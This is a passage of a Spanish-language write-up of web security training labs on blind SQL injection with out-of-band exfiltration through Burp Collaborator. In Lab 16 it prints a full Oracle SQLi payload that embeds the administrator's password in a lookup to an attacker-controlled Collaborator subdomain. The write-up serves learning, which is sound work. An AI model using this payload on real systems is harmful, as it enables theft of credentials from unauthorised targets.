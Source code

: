 Sin embargo, la consulta se ejecuta de forma asíncrona y no tiene ningún efecto sobre la respuesta de la aplicación.

Esto lo podemos comprobar introduciéndonos en el laboratorio e intentando modificar dicha cookie haciéndo búsquedas y viéndo que ninguna técnica tiene efecto.

Acto seguido, vamos a burpsuite e iniciamos el servicio de Burp Collaborator:

<div style="text-align:center">
	<img src="{{ 'assets/img/Burp/Pasted image 20220505213839.png' | relative_url }}" text-align="center"/>
</div>

Le damos a Copy to clipboard

<div style="text-align:center">
	<img src="{{ 'assets/img/Burp/Pasted image 20220505214041.png' | relative_url }}" text-align="center"/>
</div>

para obtener un dominio completo del cliente de BurpCollaborator y lo utilizamos en el siguiente payload para hacer que el servidor haga una búsqueda DNS sobre nuestro BurpCollaborator:

<div style="text-align:center">
	<img src="{{ 'assets/img/Burp/Pasted image 20220505214109.png' | relative_url }}" text-align="center"/>
</div>

Y con ello habríamos terminado el laboratorio.

<br />

**Laboratorio 16: Blind SQL injection with out-of-band data exfiltration**.

De nuevo este laboratorio contiene una vulnerabilidad SQLi ciega. La aplicación utiliza una cookie de seguimiento con la que realiza una búsqueda SQL.

El laboratorio contiene una tabla diferente llamada *users* con columnas denominada *username* y *password*. Hay que explotar la vulnerabilidad SQLi para obtener la contraseña del usuario administrador.

Accediendo al laboratorio y haciendo búsquedas con dicha cookie observamos que no hay ningún cambio ni recibimos información alguna.

Así, acudimos a Burp y activamos el cliente de BurpCollaborator como en el laboratorio anterior. Seguidamente, interceptamos una request e introducimos un payload como el siguiente:

```default
'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--
```

(Haciendo el correspondiente cambio de BURP-COLLABORATOR-SUBDOMAIN). Podemos observar que esta lleva a cabo una búsqueda para que nos de la contraseña y los nombres de usuario de la tabla users.

<div style="text-align:center">
	<img src="{{ 'assets/img/Burp/Pasted image 20220505215342.png' | relative_url }}" text-align="center"/>
</div>
